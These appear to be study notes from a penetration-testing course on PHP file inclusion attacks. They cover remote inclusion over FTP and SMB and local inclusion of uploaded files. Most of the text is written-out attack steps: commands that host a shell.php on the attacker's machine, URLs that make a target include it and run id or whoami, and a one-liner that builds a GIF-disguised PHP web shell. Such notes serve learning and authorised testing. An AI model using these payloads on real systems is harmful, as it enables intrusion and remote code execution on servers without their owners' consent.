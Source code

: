 ```
```$ sudo python -m pyftpdlib -p 21```

```http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id```


If the server requires valid authentication, then the credentials can be specified in the URL, as follows:

```$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'```


#### SMB Server

If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the allow_url_include setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion


```$ impacket-smbserver -smb2support share $(pwd)```

```http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami```






--LFI and File Uploads

If the vulnerable function has code Execute capabilities, then the code within the file we upload will get executed if we include it, regardless of the file extension or file type. For example, we can upload an image file (e.g. image.jpg), and store a PHP web shell code within it 'instead of image data', and if we include it through the LFI vulnerability, the PHP code will get executed and we will have remote code execution.


-Image upload

the vulnerability, in this case, is not in the file upload form but the file inclusion functionality.


-Crafting Malicious Image

we will use an allowed image extension in our file name (e.g. shell.gif), and should also include the image magic bytes at the beginning of the file content (e.g. GIF8), just in case the upload form checks for both the extension and content type as well. We can do so as follows:

$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

Note: We are using a GIF image in this case since its magic bytes are easily typed, as they are ASCII characters, while other extensions have magic bytes in binary that we would need to URL encode. However, this attack would work with any allowed image or file type.


## Uploaded File Path


#### Crafting Malicious files

```$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif```


```